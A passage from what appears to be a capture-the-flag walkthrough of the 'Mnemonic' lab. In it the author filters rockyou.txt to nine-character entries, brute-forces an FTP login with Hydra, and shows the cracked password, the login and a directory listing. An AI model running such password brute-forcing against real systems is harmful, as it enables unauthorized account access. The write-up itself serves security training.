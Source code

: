 With the password, I was able to extract the ZIP archive and found the following note:
```bash
kali@kali:~/ctf/mnemonic/backups$ cat note.txt 
@vill

James new ftp username: [removed]
we have to work hard
```

## Port 21 Analysis

Due to the FTP hint, I switched to FTP. I had a username and attempted to brute-force the password, but the brute-forcing with Hydra took quite some time. Since, I knew from the number of stars in the flag that the password was nine characters long, I filtered the `rockyou.txt` accordingly:  
```bash
kali@kali:~/ctf/mnemonic/backups$ grep -E '^.{9}$' /usr/share/wordlists/rockyou.txt > passwdlist.txt
                                                                                                                                                                        
kali@kali:~/ctf/mnemonic/backups$ hydra -l 'ftpuser' -P passwdlist.txt  ftp://10.10.48.189 -V -t 30
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-28 15:16:51
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 30 tasks per 1 server, overall 30 tasks, 2191587 login tries (l:1/p:2191587), ~73053 tries per task
[DATA] attacking ftp://10.10.48.189:21/
[...]
[21][ftp] host: 10.10.48.189   login: ftpuser   password: love4ever
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-28 15:17:12
```

With the smaller wordlist, the brute-force took only a few seconds. After that, I successfully via FTP and analyzed the files:
```bash
ftp ftpuser@10.10.198.59
    Connected to 10.10.198.59.
    220 (vsFTPd 3.0.3)
    331 Please specify the password.
  Password: 
    230 Login successful.
  ftp> ls -al
    drwx------   12 1003     1003         4096 Jul 14  2020 .
    drwx------   12 1003     1003         4096 Jul 14  2020 ..
    lrwxrwxrwx    1 1003     1003            9 Jul 14  2020 .bash_history -> /dev/null
    -rw-r--r--    1 1003     1003          220 Jul 13  2020 .bash_logout
    -rw-r--r--    1 1003     1003         3771 Jul 13  2020 .bashrc
    -rw-r--r--    1 1003     1003          807 Jul 13  2020 .profile
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-1
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-10
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-2
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-3
    drwxr-xr-x    4 0        0            4096 Jul 14  2020 data-4
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-5
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-6
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-7
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-8
    drwxr-xr-x    2 0        0            4096 Jul 13  2020 data-9
    226 Directory send OK.
```
